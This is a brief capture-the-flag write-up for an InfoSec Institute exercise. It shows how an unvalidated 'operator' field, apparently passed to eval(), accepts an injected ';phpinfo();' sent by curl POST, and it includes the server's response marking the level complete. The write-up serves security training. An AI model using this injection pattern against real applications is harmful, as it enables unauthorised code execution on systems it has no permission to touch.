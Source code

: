 # A1 Injection

1.	The goal is to inject the `phpinfo()` function in order to show its output.
	After some attemps, seems that `operand1` and `operand2` input fields must
	be numbers. On the contrary, `operator` field is not validated. Therefore,
	it's realistic to assume that `operator` is the attack's veicle.

2.	In the normal behaviour, the app replies with

		The result of X + Y is: Z

	where X is the value of `operand1`, Y the value of `operand2` and Z the
	result of the operation (maybe generated through `eval()` function).

3.	Our task is to include the "magic code" in the operator field. Let's try
	this

		$ curl -XPOST --data "operand1=1&operand2=1&operator=;phpinfo();" \
			http://ctf.infosecinstitute.com/ctf2/exercises/ex2.php
		HTTP/1.1 200 OK
		Date: Mon, 07 Sep 2015 08:08:54 GMT
		Server: Apache/2.4.7 (Ubuntu)
		X-Powered-By: PHP/5.5.9-1ubuntu4.6
		Set-Cookie: PHPSESSID=gqinri2rihvkjb7jvu4ea9ase7; path=/
		Expires: Thu, 19 Nov 1981 08:52:00 GMT
		Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
		Pragma: no-cache
		Vary: Accept-Encoding
		Content-Length: 7561
		Content-Type: text/html

		[...]

		<div class="modal-body">
			<p>You managed to complete level 2. You will be redirected to level 3 in 10 seconds.</p>
		</div>

		[...]

	It seems to work...

